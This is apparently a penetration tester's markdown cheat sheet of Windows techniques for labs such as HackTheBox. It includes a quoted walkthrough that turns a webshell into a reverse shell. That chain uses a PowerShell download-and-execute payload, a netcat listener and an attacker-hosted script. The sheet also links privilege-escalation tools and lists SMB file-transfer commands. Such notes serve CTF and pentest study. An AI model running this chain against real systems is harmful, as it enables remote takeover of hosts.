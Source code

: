 ### Fix $PATH on Windows (good if whoami, certutil and other exe's are "not recognized")
`set PATH=%SystemRoot%\system32;%SystemRoot%;` 

### Webshell to reverse shell with powershell
```
From Webshell, it’s time to get an interactive shell. I’ll go with my Windows stand-by, Nishang Invoke-PowerShellTcp.ps1.

Make a copy of it in the local directory.
Add a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443
Start python3 -m http.server 80 in that same directory
Start nc -lnvp 443
Visit: http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)
``` 

### Windows PrivEsc
[Windows PrivEsc Tokens SEImpersonate SEAssign whoami /priv](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

[living off the land binaries lolbas](https://lolbas-project.github.io/)

[Privilege Escalation with Potato](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

[CVE-2021-4034 PKexec Polkit](https://github.com/arthepsy/CVE-2021-4034)

[Ghostpack binaries - sharpup seatbelt rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[Windows PrivEsc DLL Injection w/ MSFVenom](abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)

[Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

[Rotten Potato Binary download](https://github.com/breenmachine/RottenPotatoNG)

[Windows PrivEsc For Windows 10 1809 or higher](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

[PrintSpoofer Windows PrivEsc < Win10 1809](https://github.com/itm4n/PrintSpoofer)

[Juicy Potato](https://github.com/ohpe/juicy-potato)

[Juicy Potato x86](https://github.com/ivanitlearning/Juicy-Potato-x86)


--------------------------------------------
# File Transfers 

### Start SMB Server
`smbserer.py -smb2support [SHARE_NAME] [SHARE_PATH]`
`smbserver.py -smb2support a .`
`copy \\10.10.14.15\a\file` 
